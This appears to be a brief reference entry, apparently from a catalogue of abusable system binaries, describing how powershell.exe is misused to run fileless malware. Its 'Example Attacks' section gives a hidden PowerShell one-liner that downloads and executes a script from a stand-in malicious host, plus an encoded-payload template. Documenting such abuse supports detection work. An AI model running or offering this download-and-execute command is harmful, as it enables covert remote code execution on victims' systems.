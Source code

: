 # powershell.exe
## What is it?
*PowerShell is a scripting language used for system administration.*

## How to abuse it
*Executes fileless malware.*

## Example Attacks
```
powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious[.]site/script.ps1')"

powershell -EncodedCommand "<base64_payload>"
```
